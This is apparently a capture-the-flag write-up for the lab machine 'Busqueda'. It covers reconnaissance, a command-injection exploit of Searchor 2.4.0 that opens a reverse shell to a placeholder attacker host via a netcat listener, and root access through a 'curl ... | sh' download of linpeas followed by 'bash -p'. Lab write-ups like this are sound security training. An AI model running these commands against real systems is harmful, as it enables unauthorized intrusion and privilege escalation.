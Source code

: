# Busqueda Writeup
## Recon
A simple search engine. Nothing too interesting in the site itself.

From looking at the source code I found out the website was using a github project called searchor.

I found the following page saying there is an RCE available for version 2.4.0:   
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

We will come back to it after a quick NMAP scan.

## NMAP
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Nothing interesting here either, Looks like the Apache and Werkzeug versions are good.

## Exploitation
Using the exploit I found earlier all we need to do is clone the repository with:
```shell
git clone https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
```
Then we use netcat to listen on port 9001 which is the default for the exploit:
```shell
nc -lnvp 9001
```
Then we run the exploit using:
```shell
./exploit.sh searcher.com <ATTACKER_IP>
```
We got a shell and we can find the ```user.txt``` file under /home/svc.
## Privilege Escalation
First thing we do is run linpeas on the machine so we open an http server using:
```shell
python3 -m http.server 80
```
Then on the victim machine we use 
```shell
curl -L http://<ATTACKER_IP>/path/to/linpeas.sh | sh
```
We now let linpeas run, and when it finishes we find we have access to /usr/bin/bash so to get root all we have to us run:
```shell
/usr/bin/bash -p
```
And we got root.

Pretty easy machine, nothing to difficult throughout the solve.
